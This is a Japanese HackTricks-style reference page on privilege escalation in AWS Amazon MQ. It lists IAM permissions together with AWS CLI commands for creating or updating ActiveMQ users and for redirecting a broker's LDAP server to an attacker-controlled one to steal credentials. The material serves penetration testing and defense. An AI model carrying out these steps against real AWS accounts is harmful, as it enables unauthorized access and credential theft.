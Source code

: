# AWS - MQ Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## MQ

MQの詳細については以下を参照してください：

{{#ref}}
../../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

これらの権限があれば、**ActimeMQ ブローカーに新しいユーザーを作成できます**（これは RabbitMQ では動作しません）：
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potential Impact:** ActiveMQ を操作して機密情報にアクセスする

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

これらの権限があれば、**ActimeMQ broker に新しいユーザーを作成できます**（これは RabbitMQ では動作しません）:
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potential Impact:** ActiveMQ を通じて機密情報へアクセス可能

### `mq:ListBrokers`, `mq:UpdateBroker`

ブローカーが **ActiveMQ** での認可に **LDAP** を使用している場合、使用されているLDAPサーバーの**設定**を**攻撃者の管理下にあるもの**に**変更**することが可能です。こうすることで、攻撃者は **LDAP** を通じて送信されるすべての認証情報を**窃取**できるようになります。
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
もし何らかの方法で ActiveMQ に使われた元の credentials を見つけられれば、MitM を実行して creds を盗み、それらを元のサーバーで使用してレスポンスを送信できます（盗んだ creds を再利用するだけで可能かもしれません）。

**潜在的な影響:** ActiveMQ の credentials を盗む

{{#include ../../../../banners/hacktricks-training.md}}
